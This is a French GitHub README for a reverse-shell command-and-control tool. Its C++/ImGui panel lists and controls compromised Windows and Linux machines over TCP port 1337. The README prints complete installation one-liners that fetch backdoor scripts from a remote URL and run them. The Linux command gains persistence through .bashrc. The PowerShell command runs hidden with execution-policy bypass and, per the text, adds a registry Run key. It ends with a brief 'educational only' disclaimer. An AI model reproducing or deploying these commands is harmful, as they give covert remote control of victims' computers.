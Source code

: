 # PRUVOST-OMEGA Reverse Shell

**PRUVOST-OMEGA** est une interface de contrôle d’un reverse shell multiplateforme (Windows/Linux) avec interface graphique en **C++ / ImGui**. Elle permet de recevoir et interagir avec des machines compromises via une console distante (type terminal), le tout dans une interface fluide et interactive.

---

## 📦 Fonctionnalités

* 🔤 Interface ImGui / OpenGL moderne pour Windows.
* 🧠 Liste des machines connectées (IP, pseudo).
* 💻 Console distante interactive (type shell/cmd/PowerShell).
* 🔀 Exécution de commandes classiques à distance :

  * `start notepad.exe`
  * `shutdown /r /t 0`
  * `exit` (ferme la session shell)
* 🔒 Persistance sur les machines compromises (via bashrc ou registre Windows).
* 📡 Communication TCP sur le port `1337`.

---

## 🧪 Captures principales

* Interface avec liste des machines connectées
* Console à distance pour chaque machine sélectionnée
* Boutons pour actions rapides (reboot, notepad, fermeture)

---

## ⚙️ Structure du projet

```
PRUVOST-OMEGA-Reverse-Shell/
├── backdoor.sh              # Reverse shell Linux
├── backdoor.ps1             # Reverse shell Windows (avec persistance)
├── PRUVOST-OMEGA_CLIENTAPP/
│   ├── Menu.cpp             # Interface ImGui + gestion TCP
│   ├── Menu.h
│   └── ...                  # Fichiers CMake, ImGui, GLFW, etc.
```

---

## 🚀 Installation & Exécution

### 🎯 Cible Linux
# Il est conseillé de placer les scripts dans un serveur Web, Pour modifier la partie ```https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.sh``` et ```https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.ps1``` qui pointe vers l'ip '192.168.1.18' qui est donc une IP locale. Il faudra donc changer l'ip dans les 2 scripts, et utiliser votre propre script. 

**Installation manuelle :**

```bash
bash -c 'curl -s https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.sh -o ~/.backdoor.sh && chmod +x ~/.backdoor.sh && grep -q ".backdoor.sh" ~/.bashrc || echo "bash ~/.backdoor.sh &" >> ~/.bashrc && bash ~/.backdoor.sh &' &
```

**Ce script :**

* Télécharge `backdoor.sh` depuis GitHub.
* Rend le script exécutable.
* L'ajoute à `.bashrc` pour une exécution automatique.
* L’exécute en arrière-plan.

### 🎯 Cible Windows

**Installation automatique :**

```powershell
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/s-i-m-o-n-git/Reverse-Shell/refs/heads/main/backdoor.ps1 -OutFile $env:APPDATA\backdoor.ps1; Start-Process -WindowStyle Hidden powershell -ArgumentList '-ExecutionPolicy Bypass -WindowStyle Hidden -File $env:APPDATA\backdoor.ps1'"
```

**Ce script :**

* Télécharge `backdoor.ps1` dans `%APPDATA%`.
* L’exécute immédiatement.
* Ajoute une clé au registre `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` pour relancer automatiquement au démarrage.

> ⚡ **N'oubliez pas de modifier l'adresse IP dans les scripts `backdoor.sh` et `backdoor.ps1` en fonction de l'adresse du serveur ImGui.**

---

## 🛠️ Compilation de l'application graphique (C++)

### Prérequis

* Visual Studio avec support du C++17
* GLFW
* ImGui
* OpenGL ≥ 3.0
* Ws2\_32.lib (WinSock)

### Compilation

* Ouvrir `PRUVOST-OMEGA.sln` avec Visual Studio
* Compiler en **Release x64**

---

## 📡 Communication

* Le client (`backdoor.ps1` / `backdoor.sh`) tente de se connecter à `192.168.1.18:1337` ( A changer )
* Le serveur ImGui écoute sur `INADDR_ANY:1337` et accepte plusieurs connexions, identifiées par IP

> ⚠️ **Changez l'adresse IP hardcodée dans les scripts clients avant d'utiliser l'application.**

---

## ⚠️ Avertissement légal

Ce projet est à but **éducatif uniquement**. Son utilisation sur des machines que vous ne possédez pas ou sans consentement explicite est **illégale** et **pénalement répréhensible**. L’auteur ne pourra être tenu responsable d’un usage abusif.

---

## 📖 Auteur

Projet par `s-i-m-o-n-git`
Interface par **ImGui + OpenGL**
